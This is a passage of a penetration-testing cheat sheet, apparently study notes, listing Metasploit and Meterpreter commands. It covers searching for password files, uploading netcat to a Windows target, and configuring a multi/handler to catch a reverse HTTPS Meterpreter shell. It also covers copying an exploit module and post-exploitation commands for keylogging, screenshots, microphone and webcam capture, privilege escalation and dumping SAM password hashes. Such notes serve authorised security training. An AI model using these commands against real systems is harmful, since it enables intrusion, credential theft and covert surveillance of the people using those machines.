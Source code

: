         `getuid`
 
    -   Search for a file  
   
        `search -f *pass*.txt`
 
    -   Upload a file  
   
        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`
 
    -   Download a file  
   
        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
 
    -   Invoke a command shell from Meterpreter Shell  
   
        `shell`
 
    -   Exit the meterpreter shell  
   
        `exit`
 
-   Metasploit Exploit Multi Handler
 
    -   multi/handler to accept an incoming reverse\_https\_meterpreter
   
        `payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        [*] Started HTTPS reverse handler on https://$ip:443/`
 
-   Building Your Own MSF Module
 
    -   `mkdir -p ~/.msf4/modules/exploits/linux/misc  
        cd ~/.msf4/modules/exploits/linux/misc  
        cp
        /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb
        ./crossfire.rb  
        nano crossfire.rb`
 
-   Post Exploitation with Metasploit - (available options depend on OS and Meterpreter Cababilities)
 
    -   `download` Download a file or directory  
        `upload` Upload a file or directory  
        `portfwd` Forward a local port to a remote service  
        `route` View and modify the routing table  
        `keyscan_start` Start capturing keystrokes  
        `keyscan_stop` Stop capturing keystrokes  
        `screenshot` Grab a screenshot of the interactive desktop  
        `record_mic` Record audio from the default microphone for X seconds  
        `webcam_snap` Take a snapshot from the specified webcam  
        `getsystem` Attempt to elevate your privilege to that of local system.  
        `hashdump` Dumps the contents of the SAM database
 
-   Meterpreter Post Exploitation Features
 